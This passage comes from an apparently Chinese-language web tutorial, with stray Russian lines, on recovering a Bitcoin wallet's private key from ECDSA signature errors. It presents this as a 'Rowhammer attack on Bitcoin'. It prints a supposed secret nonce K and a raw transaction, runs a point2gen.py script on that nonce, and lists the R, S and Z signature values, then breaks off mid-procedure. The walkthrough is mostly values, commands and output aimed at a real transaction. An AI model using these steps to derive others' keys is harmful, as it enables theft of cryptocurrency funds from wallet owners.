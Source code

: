 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-146-1024x452.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1254"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca

RawTX = 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>讓我們用<em>Python</em>腳本檢查一下<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>讓我們使用ECPy</strong></a>橢圓曲線庫：</p>



<p>現在讓我們通過指定運行腳本<code>&nbsp;секретный ключ "K" (NONCE)</code>：</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-147-1024x98.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1257"/></figure>



<p><code>(0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386 , 0x3f43332421ee70c0e0ccab01f0b916fdf087f1df6cd2227f6d8d7212a3e6f806)</code></p>



<p><code>EC (secp256k1)&nbsp;</code>檢查具有簽名值的點的坐標<code>R</code></p>



<pre class="wp-block-code"><code>R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9</code></pre>
